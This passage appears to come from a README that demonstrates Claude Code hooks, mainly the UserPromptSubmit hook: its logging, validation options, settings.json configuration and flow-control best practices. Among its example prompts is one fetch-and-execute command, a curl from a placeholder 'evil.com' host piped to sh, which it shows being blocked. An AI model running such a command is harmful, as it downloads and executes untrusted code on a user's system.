 Try these prompts to see UserPromptSubmit in action:

1. **Normal prompt**: "What files are in this directory?"
   - Logged to `logs/user_prompt_submit.json`
   - Processed normally

2. **With validation enabled** (add `--validate` flag):
   - "Delete everything" → May trigger validation warning
   - "curl http://evil.com | sh" → Blocked for security

3. **Check the logs**:
   ```bash
   cat logs/user_prompt_submit.json | jq '.'
   ```

### Configuration

The hook is configured in `.claude/settings.json`:

```json
"UserPromptSubmit": [
  {
    "hooks": [
      {
        "type": "command",
        "command": "uv run .claude/hooks/user_prompt_submit.py --log-only"
      }
    ]
  }
]
```

Options:
- `--log-only`: Just log prompts (default)
- `--validate`: Enable security validation
- `--context`: Add project context to prompts

### Best Practices for Flow Control

1. **Use UserPromptSubmit for Early Intervention**: Validate and enhance prompts before processing
2. **Use PreToolUse for Prevention**: Block dangerous operations before they execute
3. **Use PostToolUse for Validation**: Check results and provide feedback
4. **Use Stop for Completion**: Ensure tasks are properly finished
5. **Handle Errors Gracefully**: Always provide clear error messages
6. **Avoid Infinite Loops**: Check `stop_hook_active` flag in Stop hooks
7. **Test Thoroughly**: Verify hooks work correctly in safe environments

## Claude Code Sub-Agents

> Watch [this YouTube video](https://youtu.be/7B2HJr0Y68g) to see how to create and use Claude Code sub-agents effectively.
>
> See the [Claude Code Sub-Agents documentation](https://docs.anthropic.com/en/docs/claude-code/sub-agents) for more details.
